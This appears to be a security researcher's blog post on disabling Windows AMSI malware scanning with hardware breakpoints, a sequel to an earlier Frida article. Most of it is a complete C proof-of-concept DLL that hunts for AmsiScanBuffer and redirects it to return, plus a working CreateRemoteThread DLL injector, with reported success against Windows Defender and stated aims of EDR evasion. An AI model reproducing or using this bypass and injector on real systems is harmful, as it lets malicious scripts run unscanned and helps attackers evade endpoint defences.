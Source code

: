 ```yaml
---
title: Frida vs. AMSI - Beyond Prototyping
description: We broke AMSI in theory, but now let's turn it into a real exploit!
---
```


# Frida vs. AMSI - Beyond Prototyping

In my [previous article on bypassing AMSI](/blogs/frida-vs-amsi), I discussed various approaches to disabling AMSI on a Windows system - by hooking and intercepting key functions, by patching them in memory, or by corrupting the data structures that AMSI relies on to function. 

All of these techniques are certainly effective, and Frida was a great tool for rapidly implementing and experimenting with them.

However, none of them are particularly stealthy. Patching a process in memory is a fairly noisy activity. While it might not get picked up by *every* EDR as long as you're not using signatured tooling, any product with a robust behavioural analysis function is likely to flag this as suspicious behaviour.

In this article, I'll describe another approach to patching AMSI. I also hope to further demonstrate Frida's usefulness as a rapid prototyping tool, as it was my earlier research using Frida that brought me here in the first place.

## Patchless Patching

The basic idea is still the same: we're still patching the *AmsiScanBuffer()* function to short-circuit its functionality. In this case, we're going to simply redirect execution to the RET instruction at the end of *AmsiScanBuffer()* whenever it gets invoked. The function will return instantly with a default return value of 0.

If you want more background on that, check out the previous article linked above.

The way we're going to execute that patch is different, however. We're going to use hardware breakpoints to intercept *AmsiScanBuffer()*, a technique I can't take credit for. I learned about it from an article in [VXUnderground Black Mass Halloween 2022](https://vx-underground.org/Papers/Other/VXUG%20Zines), which I highly recommend for any detection-averse hackers who know their way around C. It's a great read.

The basic idea works as follows:

1. Create a DLL which must be injected or otherwise loaded by the process you want to patch AMSI for. 
2. Within *DllMain()*, identify the memory address of *DllCanUnloadNow()* in the mapped version of AMSI.DLL.
3. Use egg-hunting techniques to scan forward from *DllCanUnloadNow()*, searching for the start of *AmsiScanBuffer()*. This indirect approach helps with evasion, as per the **@am0nsec** implementation.
4. Manipulate debug registers to set a hardware breakpoint on the address of *AmsiScanBuffer()*. When the function is invoked, a special exception will be thrown.
5. Register an exception handler which simply redirects execution to the end of the function.

As with other egg-hunting AMSI patching techniques, this approach is somewhat fragile as the specific signatures we're searching for will change between different versions of Windows.
## Proof of Concept

Note that this is only a proof of concept and hasn't been tested extensively. Here's what it looks like:

```c
#include <windows.h>
#include <sys/types.h>
#include <processthreadsapi.h>
#include <stdio.h>
#include <tlhelp32.h>

// AMSI Bypass DLL via Hardware Breakpoints
// Find some way to load or inject this DLL into your process and it will hook AmsiScanBuffer().
// Compilation: x86_64-w64-mingw32-gcc amsi-breakpoint.c -shared -o  amsi-breakpoint.dll

// A simple memory scanner for the purpose of finding ROP gadgets.
uintptr_t find_egg(uintptr_t addr, char *egg, int size, int max)
{
    for (int i = 0; i < max; i++)
    {
        if (memcmp((LPVOID)(addr + i), egg, size) == 0) {
            return (addr + i);
        }
    }
    return 0;
}

// Exception handler that gets invoked when the breakpoints trigger.
// It uses find_egg() to identify the RET instruction at the end of AmsiScanBuffer() and redirect execution to it.
// This effectively patches the function to return 0.
LONG WINAPI ExceptionHandler(PEXCEPTION_POINTERS ExceptionInfo) {
	// Validate that it's a single-step exception, thrown by the hardware breakpoint.
	if (ExceptionInfo->ExceptionRecord->ExceptionCode == STATUS_SINGLE_STEP) {
		// Search forwards from the current location for a RET instruction and move the instruction pointer to it.
		uintptr_t rip = ExceptionInfo->ContextRecord->Rip;
		uintptr_t newrip = find_egg(rip, "\xc3", 1, 500);
		ExceptionInfo->ContextRecord->Rip = newrip;
		return EXCEPTION_CONTINUE_EXECUTION;
	}
	return EXCEPTION_CONTINUE_SEARCH;
}

// Set a hardware breakpoint on a thread by manipulating the debug registers of its thread context.
BOOL set_hardware_breakpoint(HANDLE thd, uintptr_t address) {
	CONTEXT context = { .ContextFlags = CONTEXT_DEBUG_REGISTERS };
	GetThreadContext(thd, &context);
	
	// set the breakpoint address
	context.Dr0 = (uintptr_t) address;

	// set bits 0 and 1 of dr7 to '10' (enable dr0 local breakpoint)
	context.Dr7 |= 1ull << 0;
	context.Dr7 &= ~(1ull << 1);

	// set bits 16 and 17 of dr7 to '00' (set dr0 break trigger to "execute")
	context.Dr7 &= ~(1ull << 16);
	context.Dr7 &= ~(1ull << 17);

	// set bits 18 and 19 of dr7 to '00' (set dr0 break size to 1 byte)
	context.Dr7 &= ~(1ull << 18);
	context.Dr7 &= ~(1ull << 19);	

	return SetThreadContext(thd, &context);
}


// Remove a hardware breakpoint on a thread by manipulating the debug registers of its thread context.
BOOL remove_hardware_breakpoint(HANDLE thd) {
	CONTEXT context = { .ContextFlags = CONTEXT_DEBUG_REGISTERS };
	GetThreadContext(thd, &context);
	
	// unset the breakpoint address
	context.Dr0 = 0ull;
	
	// unset bit 0 of dr7
	context.Dr7 &= ~(1ull << 0);
	
	return SetThreadContext(thd, &context);
}

// Iterate through the threads associated with a process and hook all of them with hardware breakpoints.
void hook_process(DWORD pid, uintptr_t addr) {
	HANDLE h = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
	THREADENTRY32 te = { .dwSize = sizeof(THREADENTRY32) };
	Thread32First(h, &te);

	do {
		if (te.th32OwnerProcessID == pid && (te.dwSize >= FIELD_OFFSET(THREADENTRY32, th32OwnerProcessID) + sizeof(te.th32OwnerProcessID))) {
			HANDLE thd = OpenThread(THREAD_ALL_ACCESS, FALSE, te.th32ThreadID);
			BOOL res = set_hardware_breakpoint(thd, addr);
			if (res) {
				printf("Hooked 0x%p on thread %i\n", addr, te.th32ThreadID);
			}
		}
	} while (Thread32Next(h, &te));

	CloseHandle(h);		
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
	const PVOID handler = AddVectoredExceptionHandler(1, ExceptionHandler);	
	const DWORD pid = GetCurrentProcessId();
	
	// Find the target address using a signature-based technique for evasion. Signature may need to be updated for different Windows versions.
	char *egg = "\x4C\x8B\xDC\x49\x89\x5B\x08\x49\x89\x6B\x10\x49\x89\x73\x18\x57\x41\x56\x41\x57\x48\x83\xEC\x70";
	uintptr_t base = (uintptr_t)GetProcAddress(GetModuleHandleW(L"AMSI.dll"), "DllCanUnloadNow");
	uintptr_t addr = find_egg(base, egg, 24, 65535);

	switch(fdwReason) {
		case DLL_PROCESS_ATTACH:
			// Hook the target address.	
			hook_process(pid, addr);
			break;
		
		break;
	}
	
	return TRUE;
}
```

For testing purposes, you can use the following "injector" to load the DLL into memory:

```c
#include <windows.h>
#include <sys/types.h>

void dll_inject(char *dll_path, pid_t pid) {
	HANDLE proc = OpenProcess(PROCESS_ALL_ACCESS, 0, pid);

	void *ptr = VirtualAllocEx(proc, 0, strlen(dll_path), MEM_COMMIT|MEM_RESERVE, PAGE_READWRITE);
	WriteProcessMemory(proc, ptr, dll_path, strlen(dll_path), 0);

	void *kernel32 = GetModuleHandle(TEXT("kernel32.dll"));
	void *loadLibAddr = GetProcAddress(kernel32, "LoadLibraryA");
	CreateRemoteThread(proc, NULL, 0, loadLibAddr, ptr, 0, NULL);	
}

void main() {
	dll_inject("C:\\Users\\IEUser\\Downloads\\amsi-breakpoint.dll", 2768);
}
```

Upon running `inject.exe` with the correct path and the PID of your Powershell process, you should find that AMSI has been disabled for it.

![a screenshot that demonstrates the breakpoint AMSI bypass](/img/amsi-breakpoint.png)

## Conclusion

I won't be publishing the code for this AMSI bypass elsewhere, as I haven't tested it extensively enough to be sure it functions reliably. On my Windows 10 testing VM, though, it was enough to bypass AMSI without triggering the (non-enterprise) Windows Defender present on the system.

Breakpoint hooking is a technique I have injected from elsewhere (pun intended), but everything else I did here builds on what I learned in my previous article. I think it's a great illustration of how you can use reverse engineering and instrumentation tools to go from idea to prototype, and then prototype to proof of concept.

I might now go from proof of concept to finished tooling, with a bit more obfuscation included to throw off EDR from the bits that might trigger a signature. Tools like this tend to get burned pretty quickly when you release them in public, though, so I'll probably be keeping any further development on this one to myself. 